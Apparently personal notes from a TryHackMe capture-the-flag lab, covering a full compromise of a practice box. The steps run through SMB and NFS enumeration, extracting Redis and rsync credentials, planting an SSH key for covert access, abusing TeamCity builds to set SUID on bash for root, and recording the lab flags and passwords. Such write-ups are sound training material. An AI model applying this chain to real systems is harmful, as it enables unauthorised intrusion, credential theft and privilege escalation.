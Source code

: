 sudo openvpn .ovpn

$nmap -A [Ipaddress]
- Note:
	- ssh port 22 (remote login)
	- older protocol
	- SAMBA protcol
		- SAMBA file sharing tool which allows user to download, view, and store files remotely 
___
**ENUMERATING SMB SHARES**
=
$smbclient -L //[ipaddress]
$smbclient //[ipaddress]/shares
- password: [NO PASSWORD, JUST PRESS ENTER]
$cd temp > $mget *
$cd ..
$cd data > $mget *

(on kali)
$cat services.txt
- flag 1: THM{0a09d51e488f5fa105d8d866a497440a}
___
**Mount remote directory - NFS/mount open ports**
=
showmount -e [ipaddress]
- /opt/conf *
	- Remote shared files 
	- We ran a showmount to display list of clients that have remotely mounted file system 

$sudo mount -t nfs [ipaddress]:/opt/conf ~/Desktop/tmp/conf
- -t : type 
- /opt/conf/: Shared directory 
	- opt: Installing optional/ 3rd part software
	- conf: Configuration files 

$cd ~/Desktop/tmp/conf/redis
$nano redis.conf 
- requirepass: "B65Hx562F@ggAZ@F"

$redis-cli -h [ipaddress]
$auth -h B65Hx562F@ggAZ@F
$Get "internal flag"
- Flag 2: THM{ff8e518addbbddb74531a724236a8221}
___
NOTE: THIS IS A START GETTING USERS
=
___

**Getting user's credentials**
we want to find more information about the redis's credentials and what we can do with it 

$type authlist
- list 
	- authlist is a list type key 

$lrange authlist 1 100
- lrange: used to extract a range of elements from a list
- 1 100: attempting to extract the first 100 elements of the output 
- QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==
	-  we noticed that this is a base64 message 

$echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | based64 -d
- authorization for rsync://rsync-connect@{IPADress} with password Hcg3HP67@TW@Bc72v
- Hcg3HP67@TW@Bc72v


$rsync -av rsync://rsync-connect@10.10.201.5/files /home/kali/Desktop/user_files
- pass: Hcg3HP67@TW@Bc72v
- Moving files from 10.10.201.5 (user) to new user_files 
- Ran sudo so we can create user_files

$cd ~/Desktop/user_files/sys-internal]
$cat user.txt
- Flag 3: THM{da7c20696831f253e0afaca8b83c07ab}
___
**THIS IS THE START OF PIVOTING****
=
**___
**SSH into root- enumerating **

$cd ~/Desktop
$mkdir ssh
$cd ssh

Now we are going to create a key for us to access the system

$ssh-keygen -f sys-internal
- password: password

Note: 
- We need to create an authorized key 

$touch authorized_keys
$cat sys-internal.pub > authorized_keys
- NOTE: We are creating a key and storing it into id_rsa.pub and give it similar permissions to the other keys to make is less suspicious

$chmod 700 authorized_keys

Now we are going to upload the admin_key file to .ssh directory of sys-internal 
$rsync -av ~/Desktop/ssh/authorized_keys rsync://rsync-connect@{ipaddress}/files/sys-internal/.ssh
- password Hcg3HP67@TW@Bc72v

$chmod 600 sys-internal

$ssh -i ~/Desktop/ssh/sys-internal sys-internal@{IpAddress} 
- we are able to gain access to the account now 

We want to go all the way back to look at severs or anything we want to exploit 
$cd .. 
$cd ..
- We discovered a TeamCity folder

Readme.txt might have some useful information
$cat TeamCity-readme.txt 
- http://localhost:8111 
	- linux 

We need to check if the service is running on port 8111 
$ss -ltp

$ssh -L 8111:localhost:8111 -i sys-internal sys-internal@{IPAddress}
- now we know we can sign in, lets go on their website -
	- http://localhost:8111  
		- This was found in the TeamCity-readme.txt file 
- Click on log in as super user 

sudo ssh sys-internal@10.10.150.238 -i ~/Desktop/ssh/sys-internal -L 8111:127.0.0.1:8111

Note: Now we can log into TeamCity -> We need to find some credentials 
$cd ..
$cd ..
$cd logs
$cat catalina.out
$cat catalina.out |grep "Super user"
- 6041791014573784210 
	- The first 604... is the right authorization 

____ 
Creating a project 
Click Manually
input name: Project 4
- Where are the flags? 

Create build configuration 
- name > Create  > skip

Go to build steps of the left side 
choose: Command line 
under custom script 
- chmod +s /bin/bash

Hit run 

Go back to linux that is on the TeamCity folder
$ls -l /bin/bash
- You need to wait for it to show 

$/bin/bash -p

$whoami
$cd /root 
$cat root.txt
- Flag 4: THM{e8996faea46df09dba5676dd271c60bd}



https://github.com/Slowdeb/Tryhackme/blob/main/VulnNet%20internal.md